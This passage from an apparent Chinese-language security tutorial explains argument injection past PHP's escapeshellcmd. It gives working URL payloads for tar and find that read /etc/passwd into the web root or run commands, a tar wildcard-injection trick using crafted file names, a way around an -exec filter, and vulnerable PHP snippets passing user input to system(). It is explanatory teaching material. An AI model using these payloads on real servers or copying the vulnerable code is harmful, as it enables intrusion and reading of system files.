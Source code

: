 

## 参数注入

从上面可以看到，参数用了escapeshellcmd过滤之后，已经不可能插入执行第二条命令了。

但是我们通过查看PHP手册，可以看到escapeshellcmd并没有对`-`做转义，所以我们还是可以把参数传到命令中。

比如说`ls`命令 你就可以插进去`-lt`，在一定程度上能更改这条命令的本意。

局限性就是能产生的漏洞极度依赖原命令。

下面就列了一些可以利用来执行命令的参数。

### tar

访问`http://127.0.0.1/?cmd=-cf+/var/www/html/zzz+/etc/passwd`，将`/etc/passwd`压缩到`/var/www/html/zzz`，这样就可以在web目录下下载`zzz`文件，解压后就是`/etc/passwd`。


访问`http://127.0.0.1/?cmd=--use-compress-program%3d%27touch+/tmp/exploit%27+-cf+/tmp/passwd+/etc/passwd`，生成 `/tmp/exploit`，但是要注意的是在不同系统中命令的选项是会有差异的，tar这个参数在ubuntu能利用成功，但是在centos中就利用失败了。

```php
<?php

system("tar ".escapeshellcmd($_GET['cmd']));

?>
```

除了命令执行的方法触发外，还可以使用通配符注入的方式，假设有如下代码：
```php
<?php

system("tar cf backup.gz * “);

?>
```
当可以在目录下生成任意名字的文件时（不能是php等敏感后缀，也不能跨目录），可以生成这两个名字的文件`--checkpoint-action=exec='touch /tmp/test'`、`--checkpoint=1`，在tar进行压缩的时候也会执行对应命令，注意`--checkpoint=1`这个选项是必须的，不加上不会执行。



### find


find命令这个参数应该很多人都知道了，`-exec`，访问`http://127.0.0.1/?cmd=-exec+%27touch+test%27+%3b`。如果有正则`\-exec\W+`这样把`exec`参数过滤了的话，可以用`-execdir`，有一样的效果。

```php
<?php

system("find /tmp -iname ".escapeshellcmd($_GET['cmd']));

?>

```
